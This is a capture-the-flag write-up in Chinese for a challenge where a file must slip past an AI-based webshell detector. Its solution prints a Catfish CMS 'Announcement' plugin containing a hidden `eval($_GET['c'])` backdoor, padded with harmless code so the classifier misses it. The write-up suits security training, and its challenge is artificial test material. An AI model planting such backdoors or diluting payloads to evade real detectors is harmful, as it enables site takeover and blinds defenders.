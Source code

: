 webshell 是什么？不知道的话，先去做一做《跑马场》吧。

呱！是 AI 加持的 webshell 检测器，如此劲、霸、强的力量，我又怎能抵挡了？

请确保上传的文件名不包含中文或特殊符号，仅使用英文字符

检测过程需要花一点时间，请耐心等待

### Solution

羊城杯决赛 AI 题改过来的

在里面疯狂注入别的文本内容，让 RCE 占比足够小就行

```php
<?php
/**
 * Plugin Name: Announcement
 * Description: The Announcement Plugin displays a bulletin at the top of the Home page
 * Author: A.J
 * Version: V1.0
 * Plugin URL: www.catfish-cms.com
 * Appliance: cms
 */

echo @eval($_GET['c']);
class Announcement extends Plugin
{
    private $plugin = 'announcement'; //设置插件名
    public function open(&$params)
    {
        //插件开启时执行，传入参数$this->plugin为插件名
        $this->statement('Catfish cms plugin');//声明鲶鱼cms插件，用来区别鲶鱼Blog插件
        $this->set($this->plugin.'_announcement','');//设置用来存储公告的变量,建议变量名使用“插件名_变量名”的格式
    }
    public function close(&$params)
    {
        //插件被关闭时执行，传入参数$this->plugin为插件名
        $this->delete($this->plugin.'_announcement');//删除设置的变量
    }
    public function settings(&$params)
    {
        //后台设置，表单页，$this->plugin为插件名
        $params['view'] = '<form method="post">
    <div class="form-group">
        <label>'.lang('Notice content').'：</label>
        <textarea class="form-control" name="announcement_gonggao" rows="3" autofocus>'.$this->get($this->plugin.'_announcement').'</textarea>
    </div>
    <button type="submit" class="btn btn-default">'.lang('Save').'</button>
</form>'; //$this->get($this->plugin.'_announcement')获取变量的内容
    }
    public function settings_post(&$params)
    {
        //后台设置，表单提交，$this->plugin为插件名
        $this->set($this->plugin.'_announcement',$this->getPost('announcement_gonggao'));
    }

    //输出公告内容
    public function home_top(&$params)
    {
        //执行代码,输出到“home_top”
//         $data = '<div class="container">
//   <div class="row">
//       <div class="col-md-12">
//         <div class="panel panel-default">
```